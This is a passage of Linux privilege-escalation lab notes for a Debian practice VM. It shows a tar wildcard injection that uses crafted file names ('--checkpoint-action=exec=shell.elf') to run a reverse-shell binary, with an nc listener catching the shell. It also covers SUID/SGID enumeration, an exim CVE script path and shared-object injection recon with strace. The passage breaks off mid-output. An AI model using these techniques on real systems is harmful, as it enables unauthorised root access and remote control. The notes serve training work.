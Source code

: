 ```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
```
chmod +x /home/user/shell.elf
```

Create these two files in /home/user:
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
nc -nvlp 4444









### SUID / SGID

Executables known exploits
```
find / -perm -u=s -type f 2>/dev/null

find / -user cage -type f 2>/dev/null
```
Find all the SUID/SGID executables on the Debian VM:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
exim-4.84-3 

/home/user/tools/suid/exim/cve-2016-1531.sh





Shared Object Injection

```
/usr/local/bin/suid-so

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
/usr/local/bin/suid-so


```
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3